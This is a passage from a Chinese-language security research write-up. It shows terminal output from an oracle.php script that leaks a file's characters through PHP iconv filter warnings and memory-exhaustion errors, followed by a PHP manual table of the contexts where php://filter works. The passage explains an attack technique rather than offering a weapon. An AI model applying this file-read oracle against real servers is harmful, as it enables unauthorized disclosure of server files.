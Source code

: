 ```bash
$ echo '1234a67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 3, the fifth character is c

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 4, the fifth character is b

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 5, the fifth character is a

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 110796800 bytes) in /tmp/oracle.php on line 16

$ echo '1234d67' > /tmp/test
$ php oracle.php 
Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 1, the fifth character is e

Warning: file_get_contents(): iconv stream filter ("UCS-4LE"=>"UCS-4"): invalid multibyte sequence in /tmp/oracle.php on line 16
IBM-930 conversions : 2, the fifth character is d

Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 101711872 bytes) in /tmp/oracle.php on line 16
```

当 `iconv` 引发无效多字节序列的 `UCS-4LE` 编码警告时，过滤器 filter 仍在工作，并使字符串大小呈指数级，从而触发内存大小耗尽错误发生。

在研究过程中，有些框架将这种警告视为错误发生，所以在这种情况下，需要将字符串大小更正为 4 的倍数（对于 UCS-4 编码）。

## 六、被影响的函数

现在攻击已经完成了，让看看它可以用在哪些地方。根据文档[https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options，\`php://filter\`可以使用在\`php://\`能使用的地方，具体看下表：](https://www.php.net/manual/en/wrappers.php.php#refsect1-wrappers.php-options%EF%BC%8C%60php://filter%60%E5%8F%AF%E4%BB%A5%E4%BD%BF%E7%94%A8%E5%9C%A8%60php://%60%E8%83%BD%E4%BD%BF%E7%94%A8%E7%9A%84%E5%9C%B0%E6%96%B9%EF%BC%8C%E5%85%B7%E4%BD%93%E7%9C%8B%E4%B8%8B%E8%A1%A8%EF%BC%9A)

| 属性  | 可支持的 |
| --- | --- |
| Restricted by [allow\_url\_fopen](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen) | No  |
| Restricted by [allow\_url\_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include) | `php://input`, `php://stdin`, `php://memory` and `php://temp` only. |
| Allows Reading | `php://stdin`, `php://input`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Writing | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. |
| Allows Appending | `php://stdout`, `php://stderr`, `php://output`, `php://fd`, `php://memory` and `php://temp` only. (Equivalent to writing) |
| Allows Simultaneous Reading and Writing | `php://fd`, `php://memory` and `php://temp` only. |